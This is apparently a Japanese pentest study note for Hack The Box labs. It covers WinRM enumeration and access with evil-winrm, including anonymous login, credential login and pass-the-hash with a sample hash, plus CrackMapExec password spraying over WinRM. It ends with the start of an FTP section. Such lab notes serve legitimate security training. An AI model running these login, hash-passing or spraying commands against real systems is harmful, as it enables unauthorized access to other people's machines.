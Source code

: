 	- WinRM は Windows 10 で手動でアクティブ化および設定する必要あり
	- WinRM を使用するドメインまたはローカル ネットワークの環境セキュリティに大きく依存する
	- ほとんどの場合、セキュリティを強化するために、証明書または特定の認証メカニズムのみを使用する
	- WinRM は TCP ポート 5985 (HTTP) および 5986 (HTTPS) を使用する
### 情報収集(コマンド)
WinRMでは基本的に認証済みのアカウントを使うことで、システム情報の取得とか、コマンドの実行が可能
そのため、HTBでWinRMを使おうと思ったら、まずは有効なアカウント情報を取得しないといけない
#### 接続
WinRM用ツール
```shell-session
sudo gem install evil-winrm
```

もしWinRMの設定が誤っていて匿名アクセスが許可されていたり、簡単に推測できるアカウント情報が登録されていたりする場合は、認証なしや低い権限で情報取得ができることもある
無認証の場合
```sh
evil-winrm -i $Target_IP -u '' -p ''
```

それぞれの認証情報がわかっている場合
- ログインが成功した場合、ターミナルセッションは[Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec)（`MS-PSRP`）を使用して初期化され、コマンドの操作と実行ができる
```shell-session
evil-winrm -i $Target_IP -u <username> -p <password>
```

evil-winrmは、ハッシュでもログインできる
- ハッシュがクラックできなくても大丈夫
```sh
evil-winrm -i <TARGET_IP> -u Administrator -H 4c827b7074e99eefd49d05872185f7f8
```
#### パスワード攻撃
- パスワード攻撃に使用できるツールとして、CrackMapExecがある。
```shell-session
sudo apt-get -y install crackmapexec
```
- CrackMapExecは現在、MSSQL、SMB、SSH、およびWinRMを使用したリモート認証をサポートしている

一般的な形式
```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

WinRMで、ユーザー名リストとパスワードリストを使って、パスワード攻撃を行う時のコマンド
- (Pwn3d!)って出てきたら、その時の認証情報でアクセスできる可能性が高い
```shell-session
crackmapexec winrm $Target_IP -u user.list -p password.list
```



## FTP
- FTPでは、TCP20,21を使う
	- まず、クライアントとサーバーが`TCP port 21`で制御チャネルを確立する
	- 次に、`TCP port 21`を介して制御チャネルを確立する
	- そして、`TCP port 20`を介してデータチャネルを確立する
